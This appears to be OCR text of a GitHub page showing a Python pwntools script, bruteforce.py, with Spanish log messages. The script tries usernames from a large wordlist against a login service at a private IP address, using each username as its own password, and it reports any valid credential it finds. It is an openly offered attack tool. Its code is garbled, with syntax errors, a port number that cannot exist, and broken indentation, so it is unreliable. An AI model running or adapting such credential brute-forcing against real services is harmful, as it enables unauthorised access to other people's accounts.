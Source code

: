 this is the clean bruteforce.py
```
#!/usr/bin/python3
#(import pwn tools) 
#pdb is for debugging, time, signal permites you to put CTRL+C for stop the execution

from pwn import *
import sys, time, pdb, signal


def def_handler(sig,frame);
   print("\n\n[1] Saliendo...\n")
   sys.exit[1]

signal.signal(signal.SIGINT,def_handler)


if __name__ == '__main__':
    host, port= "172.16.2.178",331337

    f=open("/home/cds/Downloads/xato-net-10-million-usernames.txt" , "rb")


    p1=log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    for username in f.readlines():

    username = username.strip()
    #print(username)
    password=username


    p1.status("Probando la combinacion%s:%s" (username.decode(),password.decode()))

    try:


        s = remote(host , port, level='error')

        s.recvuntil(b"username> ")
        s.sendline(username)
        s.recvuntil(b"password> ")
        s.sendline(password)


        response=s.recv()

     except:
        time.sleep(5)

   if b"authentication failed" not in response:
      p1.success("Se ha encontrado credencial valida -> %s:%s" % (username.decode(), password.decode()))
      sys.exit(8)
```
to launch it write: 
"python3 bruteforce.py"
